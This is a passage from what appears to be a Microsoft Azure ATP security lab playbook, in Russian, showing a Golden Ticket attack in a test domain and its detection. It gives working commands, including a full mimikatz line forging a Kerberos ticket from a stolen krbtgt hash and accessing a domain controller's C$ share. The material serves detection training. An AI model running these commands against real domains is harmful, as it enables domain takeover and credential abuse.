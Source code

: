 После получения доступа к Golden Ticket (учетная запись krbtgt описана в разделе о [вредоносной репликации](#malicious-replication)) злоумышленник может входить в билеты *как будто они являются контроллерами домена*. **Mimikatz**, ИД безопасности домена и украденная учетная запись krbtgt являются обязательными компонентами при выполнении подобной атаки. Мы можем создавать билеты не только для имеющегося пользователя, но и для пользователей, которые еще не существуют.

1. От имени пользователя JeffL выполните указанную ниже команду на компьютере **VictimPC**, чтобы получить ИД безопасности домена:

   ``` cmd
   whoami /user
   ```

   ![Идентификатор безопасности для пользователя Golden Ticket](media/playbook-dominance-golden_whoamisid.png)

2. Определите и скопируйте ИД безопасности домена, показанный на приведенном выше снимке экрана.

3. С помощью **Mimikatz** используйте скопированный ИД безопасности домена вместе с украденным NTLM-хэшем пользователя krbtgt для создания TGT. Вставьте следующий текст в cmd.exe от имени пользователя JeffL:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   ![Создание Golden Ticket](media/playbook-dominance-golden_generate.png)

   Часть ```/ptt``` команды позволяет немедленно передать созданный билет в память.

4. Давайте убедимся, что учетные данные находятся в памяти.  Выполните ```klist``` в консоли.

   ![Результаты klist после передачи созданного билета](media/playbook-dominance-golden_klist.png)

5. Выступая в качестве злоумышленника, выполните следующую команду передачи билета, чтобы использовать ее на контроллере домена:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   Успешно. Вы сформировали **фальшивый** Golden Ticket для пользователя SamiraA.

   ![Выполнение атаки Golden Ticket с помощью Mimikatz](media/playbook-dominance-golden_ptt.png)

Почему это сработало? Атака Golden Ticket работает из-за того, что созданный билет был правильно подписан с помощью ключа KRBTGT, который был получен ранее. Этот билет позволяет нам, как злоумышленнику, получить доступ к ContosoDC и добавить себя в любую нужную группу безопасности.

#### <a name="golden-ticket--existing-user-attack-detection"></a>Golden Ticket — обнаружение атаки существующего пользователя

Azure ATP использует несколько методов для обнаружения возможных атак этого типа. В этом сценарии Azure ATP обнаружила переход фальшивого билета на более слабое шифрование.

![Атака Golden Ticket была обнаружена](media/playbook-dominance-golden_detected.png)
